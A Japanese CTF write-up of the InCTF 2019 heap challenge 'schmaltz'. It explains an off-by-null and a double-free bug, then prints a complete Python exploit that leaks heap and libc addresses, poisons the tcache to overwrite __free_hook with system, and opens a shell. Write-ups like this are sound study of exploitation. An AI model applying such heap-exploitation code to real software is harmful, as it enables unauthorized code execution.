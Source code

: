 # [pwn 804pts] schmaltz - InCTF 2019
64ビットでPIE以外有効です。
```
$ checksec -f schmaltz
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83 Symbols     Yes      0               4       schmaltz
```
ヒープ問です。ノートのサイズは0x200までで、最大7個まで作れます。構造体は次のようになっていて、bssセクションに配列として存在します。
```c
typedef struct {
  char *note;
  int size;
  char is_used;
} Note;
```
入力を受けた後にbuf[size] = 0するのでoff-by-nullが存在します。
free時にis_usedを0にしますが、free処理でこれは確認していないのでdouble freeがあります。
さらに、インデックスのチェックがないのでshowやdeleteで配列の先頭を基点として任意の箇所をNote構造体として認識させらそうですが、指定するインデックスはnote_ctrより小さくなければなりません。

さて、libc-2.28なので単純にdouble freeはできませんが、off-by-nullを使えば別サイズのtcacheに放り込むことができそうです。（picoCTFで同じ問題を見た気がする。）

```python
from ptrlib import *

def add(size, data):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("> ", str(size))
    if size > 0:
        sock.sendafter("> ", data)
    return

def view(index):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter("> ", str(index))
    sock.recvuntil("Content: ")
    return sock.recvline()

def delete(index):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter("> ", str(index))
    return

def offset(address):
    assert address % 0x10 == 0
    return (address - 0x602060) // 0x10

libc = ELF("./libc.so.6")
elf = ELF("./schmaltz")
sock = Process(["./schmaltz"], env={"LD_LIBRARY_PATH": "./"})
#sock = Socket("52.23.219.15", 1337)
libc_main_arena = 0x3b0c40
magic01 = 0x105ae0
one_gadget = 0x41aca

# leak heap address
add(0x28, "A") # 0
add(0x28, "B") # 1
delete(1)
delete(0)
add(0x28, "\x60") # 0
addr_heap = u64(view(0))
logger.info("addr_heap = " + hex(addr_heap))
delete(0)

# leak libc address
add(0x38, "0") # 0
add(0x108, "A") # 1
delete(0)
delete(1)
add(0x38, b'0' * 0x38) # 0
delete(1)
add(0xf8, p64(addr_heap + 0xc0) + p64(0)*2 + p64(0x431)) # 0
add(0x108, "A") # 1
add(0x108, "target") # 2
add(0x1e0, "X" * 0x1df) # 3
add(0x1e0, (p64(0) + p64(0x21)) * 0x1d) # 4
delete(3)
delete(4)
add(0x48, "1" * 0x40) # 3: prepare for next
add(0x200, "B") # 4
delete(4)
delete(3)
delete(2) # link to unsorted bin
delete(0)
add(0x38, "\x90") # 0
libc_base = u64(view(1)) - libc_main_arena - 1104
logger.info("libc = " + hex(libc_base))

# tcache poisoning
add(0x48, "X" * 0x40) # 2
add(0x28, "count up")
delete(4)
add(0x1f8, p64(libc_base + libc.symbol("__free_hook")))
add(0x200, "/bin/sh")
add(0x200, p64(libc_base + libc.symbol("system")))

# get the shell!
delete(3)

sock.interactive()
```

# 感想
問題は面白いけどこれサーバー側ldで動かしてるってことだよね？何がしたいのかよく分からん。
